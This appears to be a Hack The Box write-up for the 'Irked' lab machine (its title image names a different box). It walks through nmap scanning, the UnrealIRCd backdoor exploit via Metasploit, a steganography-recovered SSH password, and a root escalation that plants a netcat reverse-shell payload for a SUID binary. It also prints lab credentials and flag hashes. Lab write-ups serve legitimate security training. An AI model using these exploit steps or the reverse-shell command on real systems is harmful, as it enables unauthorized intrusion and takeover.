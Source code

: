 ![HTB Teacher (10.10.10.153) Write-up](./screenshots/irked.jpeg)

## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.117
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8000/tcp  open  http-alt
8067/tcp  open  infi-async
46040/tcp open  unknown
65534/tcp open  unknown
```
```console
nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117
```
```
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open   rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          35800/tcp  status
|_  100024  1          56850/udp  status
6697/tcp  open   ircs-u?
|_irc-info: Unable to open connection
8000/tcp  closed http-alt
8067/tcp  open   infi-async?
|_irc-info: Unable to open connection
46040/tcp closed unknown
65534/tcp open   unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## PART 2 : Port Enumeration

1. Open http://10.10.10.117 (default: __port 80__)
   - Landing Page: 

     ![Landing Page](./screenshots/80_irked.png)

   - Page Source:
     ```html
     <img src=irked.jpg>
     <br>
     <b><center>IRC is almost working!</b></center>
     ```
   __Notes__:
   - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
   - The pages also only contains an image (__*irked.jpg*__)
   - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

2. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     msfconsole
     
     use exploit/unix/irc/unreal_ircd_3281_backdoor

     show options
     # Name    Current Setting  Required  Description
     # ----    ---------------  --------  -----------
     # RHOSTS                   yes       The target address range or CIDR identifier
     # RPORT   6667             yes       The target port (TCP)

     set RHOSTS 10.10.10.117
     set RPORT 6697

     run
     # [*] Started reverse TCP double handler on 10.10.15.122:4444 
     # [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
     #     :irked.htb NOTICE AUTH :*** Looking up your hostname...
     # [*] 10.10.10.117:6697 - Sending backdoor command...
     # [*] Accepted the first client connection...
     # [*] Accepted the second client connection...
     # [*] Command: echo 4JezGWGL0WskDMqt;
     # [*] Writing to socket A
     # [*] Writing to socket B
     # [*] Reading from sockets...
     # [*] Reading from socket A
     # [*] A: "4JezGWGL0WskDMqt\r\n"
     # [*] Matching...
     # [*] B is input...
     # [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...
     ```
   - While inside shell:
     ```console
     id
     # uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     cd /home/djmardov
     cd Documents
     ls -lah
     # drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
     # drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
     # -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
     # -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     cat .backup
     ```
     ```
     Super elite steg backup pw
     UPupDOWNdownLRlrBAbaSSss
     ```
   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ on the http service on port 80

---

## PART 3 : Generate User Shell
1. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```
2. Login via SSH with user __djmardov__
   ```console
   ssh -l djmardov 10.10.10.117
   # djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG
   ```
   While inside shell:
   ```console
   cat ~/Documents/user.txt
   # 4a66a78b12dc0e661a59d3f5c0267a8e
   ```

---

## PART 4 : Privilege Escalation (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   find / -uid 0 -perm -4000 -type f 2>/dev/null
   # ...
   # /usr/bin/viewuser
   # ...
   ```
2. Try to run __*/usr/bin/viewuser*__
   ```
   This application is being devleoped to set and test user permissions
   It is still being actively developed
   (unknown) :0           2019-04-27 13:17 (:0)
   djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
   sh: 1: /tmp/listusers: not found
   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file is not found.
     - __*/tmp/listusers*__ will be run as root no matter who owns it
3. Create payload:
   ```console
   echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
4. Establish __root__ shell:
   1. Local terminal:
      ```console
      nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      id 
      # uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      find / -name root.txt
      # /root/root.txt

      cat /root/root.txt
      # 8d8e9e8be64654b6dccc3bff4522daf3
      ```
